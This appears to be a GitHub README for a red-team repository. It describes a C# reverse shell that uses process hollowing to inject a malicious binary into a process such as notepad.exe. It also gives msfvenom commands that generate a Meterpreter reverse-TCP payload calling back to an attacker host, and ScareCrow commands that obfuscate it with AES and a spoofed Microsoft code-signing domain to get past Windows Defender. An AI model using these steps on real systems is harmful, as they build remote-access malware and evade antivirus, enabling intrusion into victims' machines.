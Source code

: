 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(As **limelighter** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)
